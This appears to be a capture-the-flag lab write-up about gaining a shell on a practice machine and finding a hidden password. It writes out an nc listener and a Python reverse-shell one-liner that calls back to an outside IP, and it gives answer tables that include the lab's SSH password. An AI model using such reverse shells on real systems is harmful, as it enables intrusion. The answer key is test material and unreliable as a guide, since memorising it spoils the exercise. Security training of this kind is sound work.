 It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account! Let's run a few test commands, and then try to gain access!

**Method 1: nc Reverse shell:**  

This machine has been outfitted with nc, a tool that allows you to make and receive connections and send data. It is one of the most popular tools to get a reverse shell. Some great places to find reverse shell payloads are [highoncoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/) and [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

*Using Python shell:*

On host machine:
```
nc -v -n -l -p 1234
```


On target machine:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.194.147",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


![[Pasted image 20240327185629.png]]


![[Pasted image 20240327185708.png]]


After this you will have to do some additional enumeration to find pingu's ssh key, or hidden password  

**Method 2: Hidden passwords:**  

Assuming my father hasn't modified since he took over my old PC, I should still have my hidden password stored somewhere,I don't recall though so you'll have to find it! `find` is the recommended tool here as it allows you to search for which files a user specifically owns.

![[Pasted image 20240327191424.png]]

![[Pasted image 20240327191919.png]]

```
find / -user "www-data" -name "*" 2>/dev/null
```
![[Pasted image 20240327191845.png]]

![[Pasted image 20240327192146.png]]



Answer the questions below

| Question                                     | Answer | SS                                   |
| -------------------------------------------- | ------ | ------------------------------------ |
| How many files are in the current directory? | 3      | ![[Pasted image 20240327193450.png]] |

| Question                   | Answer | SS                                   |
| -------------------------- | ------ | ------------------------------------ |
| Do I still have an account | yes    | ![[Pasted image 20240327193632.png]] |

| Question                 | Answer      | SS                                   |
| ------------------------ | ----------- | ------------------------------------ |
| What is my ssh password? | pinguapingu | ![[Pasted image 20240327193732.png]] |

